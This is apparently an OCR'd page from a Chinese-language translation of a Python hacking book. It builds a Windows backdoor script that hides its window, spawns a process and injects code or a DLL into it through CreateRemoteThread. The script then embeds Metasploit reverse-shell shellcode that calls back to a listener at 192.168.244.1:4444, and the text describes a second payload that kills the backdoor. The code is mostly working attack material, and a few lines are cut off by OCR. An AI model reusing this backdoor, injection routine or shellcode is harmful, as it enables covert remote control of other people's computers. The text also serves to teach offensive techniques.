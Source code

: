 ```
startupinfo.dwFlags = 0x1
startupinfo.wShowWindow = 0x0 
startupinfo.cb = sizeof(startupinfo)
# First things first, fire up that second process
# and store its PID so that we can do our injection 
kernel32.CreateProcessA(path_to_exe,
    None, None, None, None,
    creation_flags, None,
    None, byref(startupinfo),
    byref(process_information)) 
pid = process_information.dwProcessId 
```

一样很简单，没有新代码。接下来让我们把注入的代码加到后门中。我们的注入函数能 够处理代码注入和 DLL 注入两种情况；parameter 标志设置为 1，data 变量包含 DLL 路径， 就能进行 DLL 注入，默认情况下 parameter 设置成 0，就是代码注入。跟黑的在后面。

```
#backdoor.py
...
def inject( pid, data, parameter = 0 ):
    # Get a handle to the process we are injecting into.
    h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) ) 
    if not h_process:
        print "[*] Couldn't acquire a handle to PID: %s" % pid 
        sys.exit(0)
    arg_address = kernel32.VirtualAllocEx(h_process, 0, len(data), VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)
    written = c_int(0)
    kernel32.WriteProcessMemory(h_process, arg_address, data, len(data), byref(written))
    thread_id = c_ulong(0) 
    if not parameter:
        start_address = arg_address
    else:
        h_kernel32 = kernel32.GetModuleHandleA("kernel32.dll") 
        start_address = kernel32.GetProcAddress(h_kernel32,"LoadLibra 
        parameter = arg_address
    if not kernel32.CreateRemoteThread(h_process,None, 0,start_address,parameter,0,byref(thread_id)):
        print "[*] Failed to inject the DLL. Exiting." 
        sys.exit(0)
    return True 
```

现在我们有了能够支持两种注入的代码。是时候将两段不同的 shellcode 注入真正的 cacl.exe 进程了，一个 shellcode 反弹 shell 给我们，另一个杀死后门进程。

```
#backdoor.py
...
# Now we have to climb out of the process we are in
# and code inject our new process to kill ourselves
#/* win32_reverse - EXITFUNC=thread LHOST=192.168.244.1 LPORT=4444 
#Size=287 Encoder=None http://metasploit.com */
connect_back_shellcode = 
    "\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24\x8b\x45" \ 
    "\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f\x20\x01\xeb\x49" \ 
    "\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84\xc0\x74\x07\xc1\xca\x0d" \ 
    "\x01\xc2\xeb\xf4\x3b\x54\x24\x28\x75\xe5\x8b\x5f\x24\x01\xeb\x66" \ 
    "\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61" \ 
    "\xc3\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40" \ 
    "\x08\x5e\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32" \ 
    "\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50\xff\xd6" \ 
    "\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff\xd0\x68\xd9\x09" \ 
    "\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43\x53\x43\x53\xff\xd0\x68" \ 
    "\xc0\xa8\xf4\x01\x66\x68\x11\x5c\x66\x53\x89\xe1\x95\x68\xec\xf9" \ 
    "\xaa\x60\x57\xff\xd6\x6a\x10\x51\x55\xff\xd0\x66\x6a\x64\x66\x68" \ 
```